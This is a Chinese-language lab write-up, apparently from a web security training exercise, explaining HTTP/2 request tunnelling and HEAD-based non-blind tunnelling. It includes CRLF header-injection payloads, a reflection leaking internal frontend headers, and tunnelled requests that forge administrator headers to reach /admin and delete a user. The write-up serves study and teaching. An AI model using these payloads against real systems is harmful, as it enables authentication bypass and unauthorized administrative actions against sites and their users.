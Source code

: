 # 请求隧道攻击

### 前后端服务器之间的连接复用

**常规走私**利用的是“后端连接复用”这个特性：攻击者故意留下残余字节，让后端在同一条后端 TCP 连接上，把这段残余拼给下一个不同客户端的请求，从而把第二个响应错发给那位客户端。换句话说，它依赖“跨连接（不同客户端）的残余拼接”才能触发错位污染。

**隧道攻击**则完全在同一条 TCP 连接里完成：攻击者一次性把多个合法子请求放进一个畸形包，后端拆出来后会顺序返回多份响应给同一个连接（也就是攻击者本人）。这里不存在“把残余给别的客户端”的环节，一条连接只服务这一个人。

也就是说如果前后端解析确实存在差异，那么将分为如下两个利用场景：

- 前端服务器会重复使用与后端服务器的连接：常规走私。
- 前端服务器不会重复使用与后端服务器的连接：隧道攻击。

### HTTP 请求隧道攻击

HTTP/2 请求隧道攻击和之前的 HTTP 前后端服务器解析不一致导致的走私有点区别。这种攻击有两种方式：1. 盲请求隧道。2.使用 HEAD 的非盲请求隧道。

尽管你不能让套接字中毒来干扰其他用户的请求，但你仍然可以发送一个请求，该请求将从后端引出两个响应。这可能使您能够从前端完全隐藏请求及其匹配的响应。

当前后端不会产生重复连接时，不会存在响应队列这种机制，因为设计上就是一次 tcp 连接对应一次请求响应，所以将两个完整的数据包拼接成一个数据包不会形成常规的响应队列错位中毒，而是如下图这种情况：

![image-20250602191606999](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250602191606999.png)

原本应当一个请求响应一次 tcp 连接，但是将两个请求嵌入一个请求包中的导致了一次 tcp 连接处理了两个请求。

### 攻击原理

##### HEAD 非盲请求隧道

攻击者将恶意数据包拼接到 HEAD 数据包。

```
HTTP/1.1 200 OK					# 第一个数据包的响应
Content-Type: text/html
Content-Length: 4286			# 后端服务器处理后计算出的资源长度，但不返回资源

<!DOCTYPE html>					# 第二个数据包的响应
<h1>Tunnelled</h1>
<p>This is a tunnelled respo
```

 这样第二个相应包就被拼接在第一个包中了。

### 隧道攻击实验

1. 注入请求头看是否解析。

**Name**

```
foo: bar\r\n Host: abc
```

**Value**

```
xyz
```

![image-20250413102320517](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413102320517.png)

如果出现上述报错说明 Host 头被 abc 覆盖，存在注入漏洞。

2. search 参数有回显，直接回显前端添加的标头。

##### name

```
foo: bar
Content-Length: 500

search=x
```

##### value

```
xyz
```

回显

```
0 search results for 'x: xyz
cookie: session=QERGJ4I6QN6hGSDL0I2zS1yPNBUUxIqG
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 8816555535468448
Content-L'
```

![image-20250413102940567](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413102940567.png)

3. 发送 HEAD 的恶意数据包，回显数据。

```
foo: bar

GET /admin HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 8816555535468448

```

![image-20250413103453154](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413103453154.png)

这里我们可以看到出现错误，这是因为我们之前提到，响应包给用户的长度被恶意指定为 HEAD 请求的资源的长度，导致其覆盖了攻击者的第二个响应包，但是资源的长度（Content-Length）远远大于第二个相应包，导致延时且报错。

我们可以用 HEAD 请求一个小点的资源，即使它的长度（Content-Length）导致第二个包被截断，但也是可以回显部分内容且不报错的。

3. 发送 HEAD 的恶意数据包，回显数据，请求小点的资源。

![image-20250413104610118](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413104610118.png)

可以看到，将整个响应包体都返回了。

4. 删除用户。

```
foo: bar

GET /admin/delete?username=carlos HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 8816555535468448

```

![image-20250413104738604](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413104738604.png)

这一次虽然没有回显数据，但相当于盲隧道攻击，实际用户已经删除。

